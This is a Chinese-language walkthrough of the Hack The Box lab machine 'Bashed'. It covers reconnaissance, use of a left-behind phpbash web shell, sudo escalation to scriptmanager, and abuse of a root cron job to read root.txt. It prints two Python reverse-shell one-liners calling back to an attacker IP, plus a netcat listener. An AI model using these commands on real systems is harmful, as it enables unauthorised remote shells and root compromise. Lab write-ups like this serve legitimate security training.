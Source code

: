 # Bashed

## 信息收集

nmap 收集一下信息：

```
sudo nmap -sV 10.10.10.68
Starting Nmap 7.91 ( https://nmap.org ) at 2022-08-24 04:12 CDT
Nmap scan report for 10.10.10.68
Host is up (0.43s latency).
Not shown: 998 closed ports
PORT   STATE    SERVICE VERSION
53/tcp filtered domain
80/tcp open     http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.33 seconds
```

看起来也是一个突破口在网页的目标。

![image](../../%E5%9B%BE%E5%BA%8A/Firefox_Screenshot_2022-08-24T09-18-44.264Z.png)

看着东西很多，实际上页面能访问的只有index.html、single.html。

先dirsearch扫一下目录，结果如下：

```
Target: http://10.10.10.68/

[04:21:37] Starting:                                                   
[04:21:42] 301 -  308B  - /php  ->  http://10.10.10.68/php/
[04:21:43] 301 -  307B  - /js  ->  http://10.10.10.68/js/
[04:21:52] 403 -  297B  - /.ht_wsr.txt
[04:21:52] 403 -  300B  - /.htaccess.bak1
[04:21:52] 403 -  300B  - /.htaccess.orig
[04:21:52] 403 -  302B  - /.htaccess.sample
[04:21:52] 403 -  300B  - /.htaccess.save
[04:21:52] 403 -  300B  - /.htaccess_orig
[04:21:52] 403 -  301B  - /.htaccess_extra
[04:21:52] 403 -  298B  - /.htaccess_sc
[04:21:52] 403 -  298B  - /.htaccessBAK
[04:21:52] 403 -  299B  - /.htaccessOLD2
[04:21:52] 403 -  290B  - /.htm
[04:21:52] 403 -  298B  - /.htaccessOLD
[04:21:52] 403 -  291B  - /.html
[04:21:52] 403 -  296B  - /.htpasswds
[04:21:52] 403 -  300B  - /.htpasswd_test
[04:21:52] 403 -  297B  - /.httr-oauth
[04:21:56] 403 -  290B  - /.php
[04:21:56] 403 -  291B  - /.php3
[04:22:08] 200 -    8KB - /about.html
[04:22:44] 200 -    0B  - /config.php
[04:22:46] 200 -    8KB - /contact.html
[04:22:48] 301 -  308B  - /css  ->  http://10.10.10.68/css/
[04:22:51] 301 -  308B  - /dev  ->  http://10.10.10.68/dev/
[04:22:51] 200 -    1KB - /dev/
[04:22:59] 301 -  310B  - /fonts  ->  http://10.10.10.68/fonts/
[04:23:04] 301 -  311B  - /images  ->  http://10.10.10.68/images/
[04:23:04] 200 -    2KB - /images/
[04:23:08] 200 -    3KB - /js/
[04:23:25] 200 -  939B  - /php/
[04:23:39] 403 -  299B  - /server-status
[04:23:39] 403 -  300B  - /server-status/
[04:23:54] 301 -  312B  - /uploads  ->  http://10.10.10.68/uploads/
[04:23:54] 200 -   14B  - /uploads/
```

不过返回来看页面上这篇文章，有一些关键信息：

![image](../../%E5%9B%BE%E5%BA%8A/Firefox_Screenshot_2022-08-24T09-29-53.097Z.png)

再结合靶机的名字，不难猜测这里就是突破口。根据地址去github找[源码](https://github.com/Arrexel/phpbash)，大概意思就是这个项目可以传一个可视化的shell上去。

回到目录扫描记录，挨个访问状态200的目录，一般来说可以先挑存储体积比较大的或者目录名字比较敏感的看。

这里访问到/dev/的时候，发现路径下已经部署了phpbash.php，那肯定毫不客气先进shell看看。

![image](../../%E5%9B%BE%E5%BA%8A/Firefox_Screenshot_2022-08-24T09-50-14.874Z.png)

## 漏洞利用

这个shell是个比较低的权限，通过这个shell可以直接拿到user.txt。

```
www-data@bashed:/var/www/html/dev# whoami
www-data
```

然后做一下提权，就能拿到root.txt。首先尝试在web端提取：

```
www-data@bashed:/home/arrexel# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/home/arrexel# sudo -u scriptmanager /bin/bash

bash: cannot set terminal process group (822): Inappropriate ioctl for device
bash: no job control in this shell
scriptmanager@bashed:/home/arrexel$ exit
```

这里不能直接用web端shell做提权，需要反弹shell到本地。

本地用 `sudo nc -nvlp 1111` 开监听。

web端输入以下命令，注意修改IP和端口。

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",1111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

本地拿到shell，尝试提取，提取命令和上面的一样，以scriptmanager来执行命令。

```
$ sudo nc -nvlp 1111             
listening on [any] 1111 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.68] 43926
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ sudo -l 
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
$ sudo -u scriptmanager /bin/bash
bash: cannot set terminal process group (822): Inappropriate ioctl for device
bash: no job control in this shell
scriptmanager@bashed:/$ 
```

但是scriptmanager是不能访问root的，也就是说得想其它的办法拿到/root/root.txt。

通过查看目录（好像也没有更简便的方法），可以看到scriptmanager能够访问script目录。

```
scriptmanager@bashed:/$ cd scripts
cd scripts
scriptmanager@bashed:/scripts$ ls
ls
test.py
test.txt
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ 
```
这里的test.py其实给出了提示，提示可以通过执行py文件的方式，打开root/root.txt拿回内容。

[这里](https://0xdf.gitlab.io/2018/04/29/htb-bashed.html) 大佬的WP有进一步挖掘细节，test.py是定时自动执行的。所以还是要在这个scripts文件夹下增加文件或修改test.py。

（不过这个服务器没有装vim，可以远程拿本地的）

本地起服务：
```
sudo python3 -m http.server 80
```
起服务的文件夹下新建一个py文件：
```
k = open("/root/root.txt", "r")
f = open("test.txt", "w")
f.write(k.read())
f.close
```
然后shell拿取py文件等待定时执行，查看结果。

这里其实还有另一种解法，也放在这里，就是使用script定时的功能写py给自己反弹一个root shell。
```
scriptmanager@bashed:/scripts$ echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.157\",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > .exploit.py
```